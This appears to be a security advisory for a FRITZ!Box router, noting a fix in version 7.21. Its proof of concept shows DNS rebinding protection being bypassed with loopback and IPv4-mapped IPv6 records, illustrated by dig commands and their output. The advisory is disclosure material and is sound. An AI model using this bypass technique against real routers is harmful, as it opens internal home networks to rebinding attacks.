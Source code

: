 <languages />

已修复版本
----------

\>= 7.21

POC
---

    Supposing the following resource records (RR) are configured for different
    subdomains of example.com:

    ------------------------------------------------------------------------
    private.example.com        1  IN  A     192.168.178.20
    local.example.com          1  IN  A     127.0.0.1
    privateipv6.example.com.   1  IN  AAAA  ::ffff:192.168.178.20
    ------------------------------------------------------------------------

    A DNS request to the FRITZ!Box router for the subdomain
    private.example.com returns an empty answer, as expected:

    ------------------------------------------------------------------------
    $ dig private.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> private.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58984
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

    ;; QUESTION SECTION:
    ;private.example.com.   IN  A
    ------------------------------------------------------------------------

    DNS requests for the subdomains privateipv6.example.com and
    local.example.com return the configured resource records successfully,
    effectively bypassing the DNS rebinding protection:

    ------------------------------------------------------------------------
    $ dig privateipv6.example.com @192.168.178.1 AAAA
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> @192.168.178.1 privateipv6.example.com AAAA
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 6510
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;privateipv6.example.com.   IN  AAAA

    ;; ANSWER SECTION:
    privateipv6.example.com. 1  IN  AAAA    ::ffff:192.168.178.20


    $ dig local.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> local.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 28549
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;local.example.com. IN  A

    ;; ANSWER SECTION:
    local.example.com. 1    IN  A   127.0.0.1
    ------------------------------------------------------------------------